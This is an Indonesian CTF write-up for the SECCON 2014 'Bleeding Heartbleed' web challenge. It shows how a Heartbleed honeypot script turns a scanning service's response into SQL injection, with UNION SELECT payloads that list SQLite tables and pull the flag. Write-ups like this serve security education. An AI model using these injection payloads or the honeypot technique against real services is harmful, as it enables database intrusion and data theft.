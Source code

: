 ```yaml
---
id: 413
title: Bleeding “Heartbleed” Web 300 pts Seccon CTF
date: 2014-12-09T10:15:04+00:00
author: abdilahrf
layout: post
guid: http://www.hasnydes.us/?p=413
permalink: /2014/12/bleeding-heartbleed-test-web-300-pts-seccon-ctf/
factory_shortcodes_assets:
  - 'a:0:{}'
categories:
  - seccon
---
```

> <http://bleeding.pwn.seccon.jp/>

website check heartbleed , yang datanya di simpan ke database coba kita scan

> 173.194.65.100:443
> 
>     Connecting...
>     Sending Client Hello...
>     Waiting for Server Hello...
>      ... received message: type = 22, ver = 0302, length = 61
>      ... received message: type = 22, ver = 0302, length = 3852
>      ... received message: type = 22, ver = 0302, length = 331
>      ... received message: type = 22, ver = 0302, length = 4
>     Sending heartbeat request...
>     
>     

<!--more-->

view-source

> <pre><span class="pl-c">&lt;!-- DEBUG: INSERT OK. TIME=1417889356 --&gt;
</span></pre>

INSERT OK berarti masuk ke database, sepertinya ini ada sql injection cara kita inject dengan membuat honeypot vulnerability Heartbleed

gunakan script <a href="packetstormsecurity.com/files/126068/hb_honeypot.pl.txt" target="_blank">packetstormsecurity.com/files/126068/hb_honeypot.pl.txt</a> untuk membuat server anda menjadi vuln heartpbleed ,untuk bisa mengirimkan pesan inject nya jalankan honeypot dan scan ip anda

&nbsp;

> ifconfig
> 
> 120.33.21.66
> 
> perl hb_honeypot.pl
> 
> Scan  120.33.21.66:443 < via website
> 
> <span style="text-decoration: underline;">DATABASE ERROR!!!</span> <tt>near ".": syntax error</tt>
> 
> select time from results where result=&#8217;Connecting&#8230; Sending Client Hello&#8230; Waiting for Server Hello&#8230; &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 22, ver = 0301, length = 1 Sending heartbeat request&#8230; &#8230; received message: type = 24, ver = 0301, length = 249
> 
> Received heartbeat response: 09809\*)(\*)(76&^%&(*&^7657332
> 
> Hi there! Your scan has been logged! Have no fear, this is for research only &#8212; We&#8217;re never gonna give you up, never gonna let you down! WARNING: server returned more data than it should &#8211; server is vulnerable! &#8216;;

Kita coba lagi inject

> perl hb_honeypot.pl  &#8216; UNION SELECT 1337 WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
> <span class="pl-c"><!&#8211; DEBUG: INSERT OK. TIME=1337 &#8211;></span>

untuk mendapatkan list table

> perl hb\_honeypot.pl &#8216; UNION SELECT group\_concat(name) FROM sqlite_master WHERE type=&#8217;table&#8217;;&#8211;
> 
> <pre><span class="pl-c">view source
&lt;!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt --&gt;

</span></pre>

ambil kolom flag dari tabel results

> perl hb_honeypot.pl &#8216; UNION SELECT flag from ssFLGss WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
>     <!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
>     
>     

Other Source :

https://github.com/ctfs/write-ups/tree/master/seccon-ctf-2014/bleeding-heartbleed-test-web

<http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>

<div class='et_post_video'>
</div>
